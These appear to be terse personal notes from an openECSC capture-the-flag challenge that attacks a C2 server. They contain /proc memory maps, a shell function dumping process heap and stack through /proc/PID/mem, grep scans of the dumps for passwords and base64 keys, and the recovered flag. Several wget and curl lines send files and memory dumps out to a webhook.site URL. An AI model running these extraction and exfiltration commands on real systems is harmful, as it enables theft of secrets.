7f1d873cf000-7f1d873d6000 r-xp 00002000 00:21c 674631990                 /usr/lib/python3.12/lib-dynload/_blake2.cpython-312-x86_64-linux-musl.so
7f1d873d6000-7f1d873d8000 r--p 00009000 00:21c 674631990                 /usr/lib/python3.12/lib-dynload/_blake2.cpython-312-x86_64-linux-musl.so
7f1d873d8000-7f1d873d9000 r--p 0000a000 00:21c 674631990                 /usr/lib/python3.12/lib-dynload/_blake2.cpython-312-x86_64-linux-musl.so
7f1d873d9000-7f1d873da000 rw-p 0000b000 00:21c 674631990                 /usr/lib/python3.12/lib-dynload/_blake2.cpython-312-x86_64-linux-musl.so
7f1d873da000-7f1d87415000 rw-p 00000000 00:00 0 
7f1d87415000-7f1d87466000 r--p 00000000 00:21c 402722421                 /usr/lib/libcrypto.so.3
7f1d87466000-7f1d87737000 r-xp 00051000 00:21c 402722421                 /usr/lib/libcrypto.so.3
7f1d87737000-7f1d8785a000 r--p 00322000 00:21c 402722421                 /usr/lib/libcrypto.so.3
7f1d8785a000-7f1d878d4000 r--p 00444000 00:21c 402722421                 /usr/lib/libcrypto.so.3
7f1d878d4000-7f1d878d7000 rw-p 004be000 00:21c 402722421                 /usr/lib/libcrypto.so.3
7f1d878d7000-7f1d878da000 rw-p 00000000 00:00 0 
7f1d878da000-7f1d878dd000 r--p 00000000 00:21c 674632073                 /usr/lib/python3.12/lib-dynload/_hashlib.cpython-312-x86_64-linux-musl.so
7f1d878dd000-7f1d878e2000 r-xp 00003000 00:21c 674632073                 /usr/lib/python3.12/lib-dynload/_hashlib.cpython-312-x86_64-linux-musl.so
7f1d878e2000-7f1d878e6000 r--p 00008000 00:21c 674632073                 /usr/lib/python3.12/lib-dynload/_hashlib.cpython-312-x86_64-linux-musl.so
7f1d878e6000-7f1d878e7000 r--p 0000b000 00:21c 674632073                 /usr/lib/python3.12/lib-dynload/_hashlib.cpython-312-x86_64-linux-musl.so
7f1d878e7000-7f1d878e8000 rw-p 0000c000 00:21c 674632073                 /usr/lib/python3.12/lib-dynload/_hashlib.cpython-312-x86_64-linux-musl.so
7f1d878e8000-7f1d87a0c000 rw-p 00000000 00:00 0 
7f1d87a0c000-7f1d87a14000 r--p 00000000 00:21c 203550108                 /usr/lib/python3.12/site-packages/_cffi_backend.cpython-312-x86_64-linux-musl.so
7f1d87a14000-7f1d87a46000 r-xp 00008000 00:21c 203550108                 /usr/lib/python3.12/site-packages/_cffi_backend.cpython-312-x86_64-linux-musl.so
7f1d87a46000-7f1d87a54000 r--p 0003a000 00:21c 203550108                 /usr/lib/python3.12/site-packages/_cffi_backend.cpython-312-x86_64-linux-musl.so
7f1d87a54000-7f1d87a55000 r--p 00048000 00:21c 203550108                 /usr/lib/python3.12/site-packages/_cffi_backend.cpython-312-x86_64-linux-musl.so
7f1d87a55000-7f1d87a58000 rw-p 00049000 00:21c 203550108                 /usr/lib/python3.12/site-packages/_cffi_backend.cpython-312-x86_64-linux-musl.so
7f1d87a58000-7f1d87a93000 rw-p 00000000 00:00 0 
7f1d87a93000-7f1d87a97000 r--p 00000000 00:21c 203550125                 /usr/lib/python3.12/site-packages/cryptography.libs/libgcc_s-0cd532bd.so.1
7f1d87a97000-7f1d87ab9000 r-xp 00004000 00:21c 203550125                 /usr/lib/python3.12/site-packages/cryptography.libs/libgcc_s-0cd532bd.so.1
7f1d87ab9000-7f1d87abd000 r--p 00026000 00:21c 203550125                 /usr/lib/python3.12/site-packages/cryptography.libs/libgcc_s-0cd532bd.so.1
7f1d87abd000-7f1d87abe000 r--p 00029000 00:21c 203550125                 /usr/lib/python3.12/site-packages/cryptography.libs/libgcc_s-0cd532bd.so.1
7f1d87abe000-7f1d87abf000 rw-p 0002a000 00:21c 203550125                 /usr/lib/python3.12/site-packages/cryptography.libs/libgcc_s-0cd532bd.so.1
7f1d87abf000-7f1d87ac1000 rw-p 0002b000 00:21c 203550125                 /usr/lib/python3.12/site-packages/cryptography.libs/libgcc_s-0cd532bd.so.1
7f1d87ac1000-7f1d87b93000 r--p 00000000 00:21c 606757895                 /usr/lib/python3.12/site-packages/cryptography/hazmat/bindings/_rust.abi3.so
7f1d87b93000-7f1d8828e000 r-xp 000d2000 00:21c 606757895                 /usr/lib/python3.12/site-packages/cryptography/hazmat/bindings/_rust.abi3.so
7f1d8828e000-7f1d88472000 r--p 007cd000 00:21c 606757895                 /usr/lib/python3.12/site-packages/cryptography/hazmat/bindings/_rust.abi3.so
7f1d88472000-7f1d88515000 r--p 009b1000 00:21c 606757895                 /usr/lib/python3.12/site-packages/cryptography/hazmat/bindings/_rust.abi3.so
7f1d88515000-7f1d88526000 rw-p 00a54000 00:21c 606757895                 /usr/lib/python3.12/site-packages/cryptography/hazmat/bindings/_rust.abi3.so
7f1d88526000-7f1d88529000 rw-p 00000000 00:00 0 
7f1d88529000-7f1d8852b000 rw-p 00c40000 00:21c 606757895                 /usr/lib/python3.12/site-packages/cryptography/hazmat/bindings/_rust.abi3.so
7f1d8852b000-7f1d8852d000 rw-p 00c42000 00:21c 606757895                 /usr/lib/python3.12/site-packages/cryptography/hazmat/bindings/_rust.abi3.so
7f1d8852d000-7f1d88545000 rw-p 00000000 00:00 0 
7f1d88545000-7f1d88548000 r--p 00000000 00:21c 402722424                 /usr/lib/libz.so.1.3.1
7f1d88548000-7f1d88557000 r-xp 00003000 00:21c 402722424                 /usr/lib/libz.so.1.3.1
7f1d88557000-7f1d8855e000 r--p 00012000 00:21c 402722424                 /usr/lib/libz.so.1.3.1
7f1d8855e000-7f1d8855f000 r--p 00018000 00:21c 402722424                 /usr/lib/libz.so.1.3.1
7f1d8855f000-7f1d88560000 rw-p 00019000 00:21c 402722424                 /usr/lib/libz.so.1.3.1
7f1d88560000-7f1d88661000 rw-p 00000000 00:00 0 
7f1d88661000-7f1d88677000 rw-p 00000000 00:00 0 
7f1d88677000-7f1d88678000 r--p 00000000 00:21c 674632108                 /usr/lib/python3.12/lib-dynload/binascii.cpython-312-x86_64-linux-musl.so
7f1d88678000-7f1d8867b000 r-xp 00001000 00:21c 674632108                 /usr/lib/python3.12/lib-dynload/binascii.cpython-312-x86_64-linux-musl.so
7f1d8867b000-7f1d8867d000 r--p 00004000 00:21c 674632108                 /usr/lib/python3.12/lib-dynload/binascii.cpython-312-x86_64-linux-musl.so
7f1d8867d000-7f1d8867e000 r--p 00005000 00:21c 674632108                 /usr/lib/python3.12/lib-dynload/binascii.cpython-312-x86_64-linux-musl.so
7f1d8867e000-7f1d8867f000 rw-p 00006000 00:21c 674632108                 /usr/lib/python3.12/lib-dynload/binascii.cpython-312-x86_64-linux-musl.so
7f1d8867f000-7f1d88681000 r--p 00000000 00:21c 674632094                 /usr/lib/python3.12/lib-dynload/_struct.cpython-312-x86_64-linux-musl.so
7f1d88681000-7f1d88686000 r-xp 00002000 00:21c 674632094                 /usr/lib/python3.12/lib-dynload/_struct.cpython-312-x86_64-linux-musl.so
7f1d88686000-7f1d88689000 r--p 00007000 00:21c 674632094                 /usr/lib/python3.12/lib-dynload/_struct.cpython-312-x86_64-linux-musl.so
7f1d88689000-7f1d8868a000 r--p 0000a000 00:21c 674632094                 /usr/lib/python3.12/lib-dynload/_struct.cpython-312-x86_64-linux-musl.so
7f1d8868a000-7f1d8868b000 rw-p 0000b000 00:21c 674632094                 /usr/lib/python3.12/lib-dynload/_struct.cpython-312-x86_64-linux-musl.so
7f1d8868b000-7f1d8868d000 r--p 00000000 00:21c 674632112                 /usr/lib/python3.12/lib-dynload/math.cpython-312-x86_64-linux-musl.so
7f1d8868d000-7f1d88695000 r-xp 00002000 00:21c 674632112                 /usr/lib/python3.12/lib-dynload/math.cpython-312-x86_64-linux-musl.so
7f1d88695000-7f1d8869a000 r--p 0000a000 00:21c 674632112                 /usr/lib/python3.12/lib-dynload/math.cpython-312-x86_64-linux-musl.so
7f1d8869a000-7f1d8869b000 r--p 0000e000 00:21c 674632112                 /usr/lib/python3.12/lib-dynload/math.cpython-312-x86_64-linux-musl.so
7f1d8869b000-7f1d8869c000 rw-p 0000f000 00:21c 674632112                 /usr/lib/python3.12/lib-dynload/math.cpython-312-x86_64-linux-musl.so
7f1d8869c000-7f1d886a6000 rw-p 00000000 00:00 0 
7f1d886a6000-7f1d886a7000 r--p 00000000 00:21c 674632086                 /usr/lib/python3.12/lib-dynload/_random.cpython-312-x86_64-linux-musl.so
7f1d886a7000-7f1d886a8000 r-xp 00001000 00:21c 674632086                 /usr/lib/python3.12/lib-dynload/_random.cpython-312-x86_64-linux-musl.so
7f1d886a8000-7f1d886a9000 r--p 00002000 00:21c 674632086                 /usr/lib/python3.12/lib-dynload/_random.cpython-312-x86_64-linux-musl.so
7f1d886a9000-7f1d886aa000 r--p 00002000 00:21c 674632086                 /usr/lib/python3.12/lib-dynload/_random.cpython-312-x86_64-linux-musl.so
7f1d886aa000-7f1d886ab000 rw-p 00003000 00:21c 674632086                 /usr/lib/python3.12/lib-dynload/_random.cpython-312-x86_64-linux-musl.so
7f1d886ab000-7f1d886ac000 r--p 00000000 00:21c 674631989                 /usr/lib/python3.12/lib-dynload/_bisect.cpython-312-x86_64-linux-musl.so
7f1d886ac000-7f1d886ae000 r-xp 00001000 00:21c 674631989                 /usr/lib/python3.12/lib-dynload/_bisect.cpython-312-x86_64-linux-musl.so
7f1d886ae000-7f1d886af000 r--p 00003000 00:21c 674631989                 /usr/lib/python3.12/lib-dynload/_bisect.cpython-312-x86_64-linux-musl.so
7f1d886af000-7f1d886b0000 r--p 00004000 00:21c 674631989                 /usr/lib/python3.12/lib-dynload/_bisect.cpython-312-x86_64-linux-musl.so
7f1d886b0000-7f1d886b1000 rw-p 00005000 00:21c 674631989                 /usr/lib/python3.12/lib-dynload/_bisect.cpython-312-x86_64-linux-musl.so
7f1d886b1000-7f1d88a54000 rw-p 00000000 00:00 0 
7f1d88a54000-7f1d88ad6000 r--p 00000000 00:21c 942509277                 /usr/lib/libpython3.12.so.1.0
7f1d88ad6000-7f1d88d1e000 r-xp 00082000 00:21c 942509277                 /usr/lib/libpython3.12.so.1.0
7f1d88d1e000-7f1d88e72000 r--p 002ca000 00:21c 942509277                 /usr/lib/libpython3.12.so.1.0
7f1d88e72000-7f1d88eec000 r--p 0041d000 00:21c 942509277                 /usr/lib/libpython3.12.so.1.0
7f1d88eec000-7f1d8905a000 rw-p 00497000 00:21c 942509277                 /usr/lib/libpython3.12.so.1.0
7f1d8905a000-7f1d8905c000 rw-p 00000000 00:00 0 
7f1d8905c000-7f1d89060000 r--p 00000000 00:00 0                          [vvar]
7f1d89060000-7f1d89062000 r-xp 00000000 00:00 0                          [vdso]
7f1d89062000-7f1d89076000 r--p 00000000 00:21c 1006644100                /lib/ld-musl-x86_64.so.1
7f1d89076000-7f1d890cd000 r-xp 00014000 00:21c 1006644100                /lib/ld-musl-x86_64.so.1
7f1d890cd000-7f1d89103000 r--p 0006b000 00:21c 1006644100                /lib/ld-musl-x86_64.so.1
7f1d89103000-7f1d89104000 r--p 000a0000 00:21c 1006644100                /lib/ld-musl-x86_64.so.1
7f1d89104000-7f1d89105000 rw-p 000a1000 00:21c 1006644100                /lib/ld-musl-x86_64.so.1
7f1d89105000-7f1d89108000 rw-p 00000000 00:00 0 
7fffd261d000-7fffd263e000 rw-p 00000000 00:00 0                          [stack]
```

wget --post-data="$(base64 -w 0 /home/tgz.tar.gt)" 

does not work as we have to much data

./curl -H "Content-Type:application/octet-stream" --request POST --data-binary "@tgz.tar.gt" https://webhook.site/19f3deb1-bc03-47ad-bbe4-d8cba0510444

```sh
❯ curl -i -X POST "https://9a5b590a-f276-4ec0-8ca2-b51c43954257.openec.sc:1337/register" \
     -H "Accept-Encoding: gzip, deflate" \
     -H "Accept: */*" \
     -H "Connection: keep-alive" \
     -H "agent-key: db46119b4e1c441ca156210d338ea6d9" \
     -H "Content-Type: application/json" \
     -d '{"agent_id": "f3dbb847e771d79b"}'

HTTP/1.1 200 OK
Content-Length: 0
Content-Type: text/html; charset=utf-8
Date: Fri, 03 Oct 2025 03:58:03 GMT
Server: Werkzeug/3.1.3 Python/3.12.11
```

# 

```
c2:/server# cat /proc/9/maps | grep -E "heap|stack"
cat /proc/9/maps | grep -E "heap|stack"
559d54bed000-559d54bee000 ---p 00000000 00:00 0                          [heap]
559d54bee000-559d54bf8000 rw-p 00000000 00:00 0                          [heap]
7f0915155000-7f0915156000 r--p 00000000 00:21c 674632074                 /usr/lib/python3.12/lib-dynload/_heapq.cpython-312-x86_64-linux-musl.so
7f0915156000-7f0915157000 r-xp 00001000 00:21c 674632074                 /usr/lib/python3.12/lib-dynload/_heapq.cpython-312-x86_64-linux-musl.so
7f0915157000-7f091515a000 r--p 00002000 00:21c 674632074                 /usr/lib/python3.12/lib-dynload/_heapq.cpython-312-x86_64-linux-musl.so
7f091515a000-7f091515b000 r--p 00004000 00:21c 674632074                 /usr/lib/python3.12/lib-dynload/_heapq.cpython-312-x86_64-linux-musl.so
7f091515b000-7f091515c000 rw-p 00005000 00:21c 674632074                 /usr/lib/python3.12/lib-dynload/_heapq.cpython-312-x86_64-linux-musl.so
7fff2cc02000-7fff2cc23000 rw-p 00000000 00:00 0                          [stack]
c2:/server# ls
ls
code.bin    config.bin  dump        main.py     start.sh
c2:/server# cd dump
cd dump
c2:/server/dump# procdump()
( 
    cat /proc/$1/maps | grep -Fv ".so" | grep -E "heap|stack" | grep " 0 " | awk '{print $1}' | ( IFS="-"
    while read a b; do
        dd if=/proc/$1/mem bs=$( getconf PAGESIZE ) iflag=skip_bytes,count_bytes \
           skip=$(( 0x$a )) count=$(( 0x$b - 0x$a )) of="$1_mem_$a.bin"
    done )
)procdump()
> ( 
<|stack" | grep " 0 " | awk '{print $1}' | ( IFS="-"
>     while read a b; do
<( getconf PAGESIZE ) iflag=skip_bytes,count_bytes \
>            skip=$(( 0x$a )) count=$(( 0x$b - 0x$a )) of="$1_mem_$a.bin"
>     done )
> 
)
c2:/server/dump# procdump 9
procdump 9
dd: /proc/9/mem: I/O error
10+0 records in
10+0 records out
40960 bytes (40.0KB) copied, 0.000322 seconds, 121.3MB/s
33+0 records in
33+0 records out
135168 bytes (132.0KB) copied, 0.000637 seconds, 202.4MB/s
c2:/server/dump# ls
ls
9_mem_559d54bed000.bin  9_mem_7fff2cc02000.bin
9_mem_559d54bee000.bin  venv
c2:/server/dump# ls -la
ls -la
total 172
drwxr-xr-x    3 root     root           108 Oct  3 04:09 .
drwxr-xr-x    1 root     root            35 Oct  3 03:59 ..
-rw-r--r--    1 root     root             0 Oct  3 04:09 9_mem_559d54bed000.bin
-rw-r--r--    1 root     root         40960 Oct  3 04:09 9_mem_559d54bee000.bin
-rw-r--r--    1 root     root        135168 Oct  3 04:09 9_mem_7fff2cc02000.bin
drwxr-xr-x    5 root     root            74 Oct  3 04:05 venv
c2:/server/dump# 
```

- tool pyspy

wget --post-data="$(gzip -c 9_mem_559d54bee000.bin | base64 -w 0)" https://webhook.site/19f3deb1-bc03-47ad-bbe4-d8cba0510444/heap

wget --post-data="$(gzip -c 9_mem_7fff2cc02000.bin | base64 -w 0)" https://webhook.site/19f3deb1-bc03-47ad-bbe4-d8cba0510444/stack

mhhh doesnt help that much


c2:/server/dump/dump2# for file in *; do
    if [ -f "$file" ]; then
        if strings "$file" | grep -q "Password: "; then
            echo "Found Password:  in: $file"
        fi
    fi
donefor file in *; do
>     if [ -f "$file" ]; then
>         if strings "$file" | grep -q "/etc/machine-id"; then
>             echo "Found /etc/machine-id in: $file"
>         fi
>     fi
> 
done
strings: standard output: Broken pipe
Found /etc/machine-id in: 9_mem_7f091713f000.bin
c2:/server/dump/dump2# cat /proc/9/maps | grep "7f091713f000"

strings: standard output: Broken pipe
Found Password:  in: 9_mem_7f091713f000.bin

grep -C 30 "__import__" int


run strings over all memory regions, scan for 44 long base64 (key)

```
c2:/server/dump/dump2#  grep -E '[A-Za-z0-9_-]{42,44}' int
 grep -E '[A-Za-z0-9_-]{42,44}' int
abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789-_=
0000001000000000000000000000000000000000Pg
00000000000000000000000001000000000000000000000000000000@.
00000000000000000000000000000000000000000000000000000000@)
00000000000000000000000000000000000000000000000000000000 +
00000000000000000000000000000000000000000000000000000100
00000000000000000000000000000000000000000000000000000000
00000000000000000000000000000000000000000000000000000000P
00000000000000000000000000000000000000000000000000000000P
00000000000000000000000000000000000000000000000000000000
00000000000000000000000000000000000000000000000000000000
00000000000000000000000000000000000000000100000000000000
    http://code.activestate.com/recipes/577452-a-memoize-decorator-for-instance-methods/
fusr/libabcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789
-!*+/abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789
THE_ASN1_OBJECT_IDENTIFIER_IS_NOT_KNOWN_FOR_THIS_MD
PARAM_UNSIGNED_INTEGER_NEGATIVE_VALUE_UNSUPPORTED
PKEY_APPLICATION_ASN1_METHOD_ALREADY_REGISTERED
ENCRYPTION_NOT_SUPPORTED_FOR_THIS_KEY_TYPE
THE_ASN1_OBJECT_IDENTIFIER_IS_NOT_KNOWN_FOR_THIS_MD
ATTEMPT_TO_REUSE_SESSION_IN_DIFFERENT_CONTEXT
OLD_SESSION_COMPRESSION_ALGORITHM_NOT_RETURNED
POLICY_WHEN_PROXY_LANGUAGE_REQUIRES_NO_POLICY
ALERT_DESCRIPTION_CERTIFICATE_UNOBTAINABLE
ALERT_DESCRIPTION_BAD_CERTIFICATE_STATUS_RESPONSE
ALERT_DESCRIPTION_BAD_CERTIFICATE_HASH_VALUE
ALERT_DESCRIPTION_CERTIFICATE_UNOBTAINABLE
ALERT_DESCRIPTION_BAD_CERTIFICATE_STATUS_RESPONSE
ALERT_DESCRIPTION_BAD_CERTIFICATE_HASH_VALUE
------------------------------------------------------------------------
abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ
0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"#$%&'()*+,-./:;<=>?@[\]^_`{|}~ 	
InvalidMultipartContentTransferEncodingDefect
    ---------------------------------------------
elliptic_curve_signature_algorithm_supported
Backend.elliptic_curve_signature_algorithm_supported
elliptic_curve_exchange_algorithm_supported
Backend.elliptic_curve_exchange_algorithm_supported
cryptography_has_unexpected_eof_while_reading
cryptography_has_ssl_verify_client_post_handshake
cryptography_has_ssl_op_ignore_unexpected_eof
Cryptography_HAS_SSL_VERIFY_CLIENT_POST_HANDSHAKE
Cryptography_HAS_UNEXPECTED_EOF_WHILE_READING
Cryptography_HAS_SSL_OP_IGNORE_UNEXPECTED_EOF
X509_V_ERR_UNABLE_TO_DECODE_ISSUER_PUBLIC_KEY
X509_V_ERR_UNABLE_TO_DECRYPT_CERT_SIGNATURE
X509_V_ERR_UNABLE_TO_DECRYPT_CRL_SIGNATURE
X509_V_ERR_UNABLE_TO_GET_ISSUER_CERT_LOCALLY
X509_V_ERR_UNABLE_TO_VERIFY_LEAF_SIGNATURE
X509_V_ERR_UNHANDLED_CRITICAL_CRL_EXTENSION
VeoDniGK2vuhrgd4tTSR8Z6wRUscv1J7gCwIjAhPSyM=
-.0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ_abcdefghijklmnopqrstuvwxyz~
0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz!#$%&()*+-;<=>?@^_`{|}~
    'a4337bc45a8fc544c03f52dc550cd6e1e87021bc896588bd79e901e2'
Rm8BoBYBPQJLx7-y83cy9VuNyg4w3E3_1qTqKOB5fCdncA=
abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ
abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789+-.
challenge-fb300cea-fa25-5ff1-9f33-095f9d9836b2
0111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111
CHALLENGE_NAMESPACE=challenge-fb300cea-fa25-5ff1-9f33-095f9d9836b2
```


tcpdump -i eth0 -A -s 0 'tcp port 5000'


HTTP/1.1 200 OK
Content-Length: 52
Content-Type: application/json
Date: Fri, 03 Oct 2025 21:32:47 GMT
Server: Werkzeug/3.1.3 Python/3.12.11
Connection: close

[
  "9abd4979a32409cc",
  "_fr0m_b0th_p4rts_467b8caf}\n"
]

openECSC{y4y_y0u_g0t_the_fl4g_fr0m_b0th_p4rts_467b8caf}